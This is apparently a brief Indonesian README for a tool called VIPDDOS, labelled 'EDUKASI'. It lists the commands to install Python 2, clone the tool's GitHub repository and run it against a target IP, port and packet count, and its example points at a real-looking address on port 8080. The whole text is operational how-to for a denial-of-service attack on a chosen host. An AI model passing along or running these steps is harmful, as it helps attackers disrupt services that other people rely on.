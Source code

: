 # EDUKASI 

apt update && apt upgrade

apt install python2

apt install git

git clone https://github.com/BimbimProject/VIPDDOS.git

cd VIPDDOS

python2 VIPDDOS.py [ip target] [port] [jumlah ping]

# CONTOH

python2 VIPDDOS.py 118.96.40 8080 1000
